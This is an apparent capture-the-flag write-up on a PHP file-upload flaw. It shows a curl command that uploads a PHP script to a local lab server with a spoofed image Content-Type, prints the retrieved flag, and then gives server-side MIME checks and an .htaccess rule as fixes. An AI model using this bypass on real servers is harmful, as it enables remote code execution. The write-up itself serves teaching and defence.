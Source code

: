 # Reproduction:  
By clicking on ADD IMAGE, we arrive at a form to upload an image.  
We first send a script to observe the POST request, which returns a 200 even if the "image" is not uploaded.  

Now we try to send the same script by manipulating the Content-Type to trick the server, either via Postman or in a curl request:  

```sh
echo '<?php echo file_get_contents('/home'); ?>
<?php print "hello"; ?>' > /tmp/script.php  && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/script.php;type=image/jpeg" "http://localhost:8000/index.php?page=upload" | grep flag
```

This request forces the server to accept the PHP script as an image. By executing the script, we retrieve the flag:  
`46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8`  

# Problem:  
The application does not properly validate the uploaded file type. This allows an attacker to bypass restrictions and execute malicious scripts directly on the server, creating a Remote Code Execution (RCE) vulnerability.  

# Solutions:  
Strict server-side validation:  

1. Verify the actual MIME type of uploaded files, not just the Content-Type declared by the client:  

```php
$allowedTypes = ['image/jpeg', 'image/png'];
$fileType = mime_content_type($_FILES['uploaded']['tmp_name']);
if (!in_array($fileType, $allowedTypes)) {
    die("Invalid file type.");
}
```

2. Prevent execution of any files in the upload directory by configuring a .htaccess file:  

```php
<FilesMatch "\.(php|phtml|php3|php4|php5)$">
    Deny from all
</FilesMatch>
```